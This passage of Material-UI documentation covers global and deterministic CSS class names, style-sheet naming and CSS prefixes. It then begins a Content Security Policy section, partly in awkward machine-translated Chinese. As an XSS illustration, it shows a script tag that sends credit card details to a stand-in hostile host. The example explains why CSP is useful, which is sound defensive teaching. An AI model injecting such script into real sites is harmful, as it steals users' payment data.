 {{"demo": "pages/css-in-js/advanced/GlobalCss.js"}}

### Hybrid

You can also combine JSS generated class names with global ones.

{{"demo": "pages/css-in-js/advanced/HybridGlobalCss.js"}}

### Deterministic class names

We provide an option to make the class names **deterministic** with the [`dangerouslyUseGlobalCSS`](/css-in-js/api/#creategenerateclassname-options-class-name-generator) option. 打开后, 类名将如下所:

- 开发： `.AppBar-root`
- 产量： `.AppBar-root`

⚠️ **Be cautious when using `dangerouslyUseGlobalCSS`.** Relying on it for code running in production has the following implications:

- It's harder to keep track of `classes` API changes between major releases.
- 全局CSS本质上是很弱的

⚠️ When using `dangerouslyUseGlobalCSS` standalone (without Material-UI), you should name your style sheets using the `options` parameter:

```jsx
// Hook
const useStyles = makeStyles(styles, { name: 'button' });

// Styled-components
const Button = styled(styles, { name: 'button' })(ButtonBase);

// Higher-order component
const Button = withStyles(styles, { name: 'button' })(ButtonBase);
```

## CSS prefixes

JSS uses feature detection to apply the correct prefixes. [Don't be surprised](https://github.com/mui-org/material-ui/issues/9293) if you can't see a specific prefix in the latest version of Chrome. Your browser probably doesn't need it.

## 内容安全政策（CSP）

### 什么是CSP，为什么它有用？

基本上，CSP通过要求开发人员将其资产从中检索的源列入白名单来缓解跨站点脚本（XSS）攻击。 此列表作为服务器的标头返回。 例如，假设您有一个托管在` https://example.com`的网站 CSP头`default-src：'self';`将允许位于`https://example.com/*`的所有资产并否认所有其他人。 如果您的网站的某个部分容易受到XSS的影响而未显示未转义的用户输入，则攻击者可以输入以下内容：

    <script>
      sendCreditCardDetails('https://hostile.example');
    </script>
    
